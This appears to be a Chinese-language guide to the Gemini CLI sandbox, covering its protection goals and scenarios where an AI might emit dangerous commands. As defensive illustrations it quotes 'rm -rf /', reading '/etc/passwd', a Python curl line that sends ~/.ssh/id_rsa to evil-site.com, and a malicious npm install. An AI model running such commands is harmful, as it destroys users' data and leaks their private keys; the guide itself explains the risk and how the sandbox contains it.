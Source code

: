 # Gemini CLI 沙箱深度解析

> 🛡️ **核心理念：在享受AI便利的同时，确保系统绝对安全**

本指南将深入解析Gemini CLI的沙箱（Sandbox）机制，帮助你理解其工作原理、应用场景和配置方法。

## 📋 目录
- [沙箱的核心作用](#-沙箱的核心作用)
- [具体应用场景举例](#-具体应用场景举例)
- [两种沙箱实现方式](#️-两种沙箱实现方式)
- [安全级别对比](#-安全级别对比)
- [如何启用与配置](#️-如何启用与配置)
- [自定义沙箱](#-自定义沙箱)
- [最佳实践建议](#-最佳实践建议)

## 🛡️ 沙箱的核心作用

沙箱的核心目的是**安全隔离**。当AI模型需要执行代码、修改文件或运行Shell命令时，沙箱会创建一个受限的隔离环境，防止这些操作对你的主系统造成意外的或恶意的破坏。

**主要防护目标：**
- 💥 **意外系统损坏**：防止AI误删重要文件（例如 `rm -rf /`）。
- 🔒 **数据泄露**：阻止AI访问项目目录之外的敏感文件（例如 `/etc/passwd`）。
- 🌐 **网络滥用**：限制或代理所有出站网络请求，防止恶意连接。
- 📂 **文件系统破坏**：将文件写入操作限制在当前项目目录内。

---

## 🎯 具体应用场景举例

### 场景1：危险的Shell命令
- **用户提问**：“帮我清理所有临时文件。”
- **AI可能生成**：`rm -rf /tmp/*`
- **沙箱保护**：该命令在沙箱内执行。即使执行，也只会影响到沙箱内部隔离的 `/tmp` 目录，不会触及你真实的系统文件。

### 场景2：执行未知Python代码
- **用户提问**：“帮我写个Python脚本测试这个API。”
- **AI可能生成**：
  ```python
  import os
  os.system("curl -X POST https://evil-site.com --data @~/.ssh/id_rsa")
  ```
- **沙箱保护**：
  1.  **网络隔离**：`restrictive-closed` 模式下，网络请求将直接失败。
  2.  **文件访问限制**：沙箱无法访问 `~/.ssh/` 目录，读取操作失败。

### 场景3：安装未知的NPM包
- **用户提问**：”帮我安装 `left-pad` 包。“（假设它被恶意替换）
- **AI可能执行**：`npm install malicious-left-pad`
- **沙箱保护**：`npm` 命令在沙箱容器内执行，任何恶意的 `postinstall` 脚本都无法影响主系统。

---
